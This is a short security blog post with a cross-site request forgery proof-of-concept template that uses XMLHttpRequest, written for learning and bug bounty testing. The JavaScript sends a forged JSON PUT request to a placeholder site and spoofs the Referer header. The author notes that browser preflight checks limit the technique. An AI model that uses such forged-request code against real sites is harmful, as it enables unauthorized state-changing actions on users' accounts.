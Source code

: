 ```yaml
---
layout: post
title: XHR CSRF PoC 
published: true
categories: [Research, BugBounty]
excerpt: This is just some sample code for when creating an XHR CSRF PoC. It is used for my self learning purposes and work sometimes.
---
```


This is just some sample code for when creating an XHR CSRF PoC.    
It is used for my self learning purposes and work sometimes.

---

# XHR CSRF PoC

This is just some sample code for when creating an XHR CSRF PoC.    
It is used for my self learning purposes and work sometimes.

You can use it for JSON CSRF too.


  
```html
<script>
function getMe() {
var http;
http = new XMLHttpRequest();
var url = "http://example.com";
http.open("PUT", url, false);
//http.setRequestHeader('Access-Control-Request-Meethod','POST');
//http.setRequestHeader('Access-Control-Request-Meethod','content-type');
http.setRequestHeader('Content-Type','application/json');
http.setRequestHeader('Referer',url);
http.setRequestHeader('Content-Length','33');
http.onreadystatechange = function()
{
	if(http.readyState == 2)
		{var response = http.responseText;
		document.getElementById('result').innerHTML = response;
	}
}
http.send(`Your payload here`);
//http.send(JSON.stringify({"test":"test"})); // Use this for json csrf because sometimes type is not checked
}

getMe();
</script>

<html>
<div id='result'></div>
</html>
```

Sadly modern browsers nowadays will send an OPTIONS request first to check for XHR, and it is not possible to modify the Origin in the request - it will be set to null.

However, this may be still useful for some basic Web challenges and maybe bug bounty.

Ref: [AJAX in Chrome sending OPTIONS instead of GET/POST/PUT/DELETE?](https://stackoverflow.com/q/21783079/4420129)